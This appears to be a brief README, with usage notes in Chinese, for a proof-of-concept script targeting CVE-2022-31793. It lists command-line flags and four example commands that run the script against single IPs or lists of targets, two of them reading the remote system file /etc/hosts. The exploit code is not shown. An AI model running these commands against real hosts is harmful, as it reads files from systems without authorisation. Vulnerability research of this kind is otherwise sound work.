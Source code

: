 # CVE-2022-31793

-u 指定IP  -l 指定ip文件 -v 验证模式 -f 指定读取文件

python poc.py -u ip -v

python poc.py -l url.txt -v

python poc.py -u ip -f /etc/hosts

python poc.py -l url.txt -f /etc/hosts

